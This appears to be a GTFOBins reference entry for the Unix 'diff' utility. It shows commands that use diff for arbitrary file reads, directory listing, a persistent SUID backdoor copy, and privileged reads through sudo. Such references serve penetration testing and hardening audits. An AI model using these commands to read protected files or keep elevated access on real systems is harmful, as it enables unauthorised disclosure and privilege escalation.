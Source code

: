 # GTFOBin: diff

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
diff --line-format=%L /dev/null $LFILE
```

This lists the content of a directory. `$TF` can be any directory, but for convenience it is better to use an empty directory to avoid noise output.

```
LFOLDER=folder_to_list
TF=$(mktemp -d)
diff --recursive $TF $LFOLDER
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which diff) .

LFILE=file_to_read
./diff --line-format=%L /dev/null $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo diff --line-format=%L /dev/null $LFILE
```